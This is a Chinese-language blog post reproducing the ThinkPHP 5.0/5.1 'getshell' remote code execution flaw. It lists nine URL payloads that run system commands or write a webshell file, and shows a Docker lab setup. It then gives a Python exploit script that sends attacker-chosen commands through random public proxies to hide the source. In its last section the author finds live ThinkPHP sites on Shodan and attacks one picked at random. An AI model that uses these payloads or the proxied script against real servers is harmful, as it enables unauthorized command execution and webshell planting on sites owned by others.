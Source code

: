 ```yaml
---
title: Thinkphp5-getshell复现
tags: 渗透测试
---
```

ThinkPHP是一个快速、兼容而且简单的轻量级国产PHP开发框架
![图标](https://static.dingtalk.com/media/lALPDgQ9rM5RBxHNAfTNA4Q_900_500.png)

<!--more-->

## 一、漏洞详情
由于框架对控制器名没有进行足够的检测，会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

参考链接：https://blog.thinkphp.cn/869075
## 二、测试payload
其实我一直等一个大佬分析漏洞原理，但是没有看到圈子里有人发表相关文章，只好自己来告诉大家这个漏洞的消息。但是由于本人实在是技术小白，所以写不出来漏洞原理，只能发一波payload了
```
1、index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
2、index.php?s=index/\think\Request/input&filter=phpinfo&data=1
3、index.php?s=index/\think\Request/input&filter=system&data=id
4、index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
5、index.php?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
6、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
7、index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
8、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
9、index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 三、复现
- 有了payload，剩下的就是搭建复现环境了。这里给大家说一下我的习惯：直接用docker pull，有的表哥可能喜欢自己搭一遍，这样能够学到更多的东西，但是我为了图方便，一般都是直接用docker实现了
- 安装docker应该大家都会，如果有人不是很了解docker的话，我这里讲一个非常简单的方法：在centos7里先yum -y updat确保自己的最新的，然后重启，执行yum -y install docker*，这样很简单的就把docker装上了
- 然后：
```
docker pull docker.io/clarencep/tp5-dev
docker run -d --name thinkphp5 -p 8000:8000 docker.io/clarencep/tp5-dev
```
- 然后就可以访问http://ip:8000来看一下是否成功  

![测试环境](https://images-cdn.shimo.im/anrkeZR5YHosWG5t__thumbnail)  
- 确认成功跑起来之后选一个payload来访问就可以了  

![测试payload](https://images-cdn.shimo.im/WD0eNDELsyscHQN2__thumbnail)  
## 四、愉快玩耍
- 有了payload，就可以写一个简单的脚本来玩了
```
#coding=utf-8
import requests,sys,random
proxy_list=[
    '223.203.0.14:8000',
    '183.166.129.53:8080',
    '103.205.26.84:41805',
    '61.135.155.82:443',
    '218.17.139.5:808'
]
def poc(site,command):
    url=site+'/index.php?s=Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]='+command
    headers={'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0'}
    proxies={
        'http':'http://'+random.choice(proxy_list),
        'https':'https://'+random.choice(proxy_list)
        }
    req=requests.get(url,headers=headers,proxies=proxies)
    print(req.text)
    print('-----------------------------------------')
try:
    site=sys.argv[1]
    command=sys.argv[2]
except:
    site=raw_input('Please input your site:')
    print('-----------------------------------------')
    while True:
        command=raw_input('Command:')
        poc(site,command)
poc(site,command)
```
- 我在脚本里写了几个随便在网上找的代理IP，大家也可以写自己的  
- 去shodan上看一眼：

![shodan](https://images-cdn.shimo.im/rHUy523VPVYwhuOt__thumbnail)  
- 哇，好多thinkphp5的网站，随便挑一个  

![上手](https://images-cdn.shimo.im/nncjpXyHhSYvKVTY__thumbnail)  
- 我早上看的时候还好好地，现在已经被人传进去这么多马了，还有asp的，真的娘的是个人才